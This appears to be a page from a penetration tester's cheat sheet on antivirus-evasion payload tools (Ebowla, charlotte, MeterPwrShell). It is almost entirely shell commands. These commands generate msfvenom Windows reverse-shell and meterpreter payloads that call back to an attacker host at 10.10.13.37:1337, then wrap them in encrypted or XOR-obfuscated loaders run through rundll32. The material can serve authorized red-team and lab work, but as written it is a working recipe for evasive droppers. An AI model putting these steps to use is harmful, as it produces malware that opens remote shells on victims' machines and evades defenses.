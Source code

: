 


## Ebowla

```
$ git clone https://github.com/Genetic-Malware/Ebowla ~/tools/Ebowla && cd ~/tools/Ebowla
$ sudo apt install golang mingw-w64 wine python-dev -y
$ sudo python -m pip install configobj pyparsing pycrypto pyinstaller
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.13.37 LPORT=1337 --platform win -f exe -a x64 -o rev.exe
$ vi genetic.config
...Edit output_type, payload_type, clean_output, [[ENV_VAR]]...
$ python ebowla.py rev.exe genetic.config && rm rev.exe
$ ./build_x64_go.sh output/go_symmetric_rev.exe.go ebowla-rev.exe [--hidden] && rm output/go_symmetric_rev.exe.go
[+] output/ebowla-rev.exe
```




## charlotte

* [https://github.com/9emin1/charlotte](https://github.com/9emin1/charlotte)

```
$ sudo apt install 'mingw-w64*' -y
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f raw > beacon.bin
$ python charlotte.py
Cmd > rundll32.exe charlotte.dll, <XOR_KEY>
```




## MeterPwrShell

* [https://github.com/GetRektBoy724/MeterPwrShell/releases](https://github.com/GetRektBoy724/MeterPwrShell/releases)
* [https://raikia.com/tool-powershell-encoder/](https://raikia.com/tool-powershell-encoder/)

```
$ sudo ./MeterPwrShell2Kalix64 -c noaptupdate
```




## Nim



### Install

Windows:

* [https://nim-lang.org/install_windows.html](https://nim-lang.org/install_windows.html)
* [https://git-scm.com/download/win](https://git-scm.com/download/win)
